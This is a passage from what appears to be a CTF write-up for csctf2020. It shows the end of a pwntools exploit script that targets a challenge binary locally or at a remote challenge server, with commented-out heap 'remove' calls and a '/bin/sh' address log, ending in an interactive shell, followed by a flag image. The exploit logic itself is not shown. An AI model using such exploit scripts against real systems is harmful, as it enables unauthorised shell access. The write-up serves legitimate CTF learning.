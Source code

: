     # log.info("/bin/sh: " + hex(binsh))

    # remove(0)
    # remove(0)
    # remove(4)

    r.interactive()
    return

if __name__ == "__main__":
    if len(sys.argv)==2 and sys.argv[1]=="remote":
        REMOTE = True
        r = remote("128.199.211.118", 23338)
    else:
        LOCAL = True
        r = process([TARGET,])
    exploit(r)
    sys.exit(0)

{% endhighlight %}

<img src="/images/csctf2020/flag2.png">
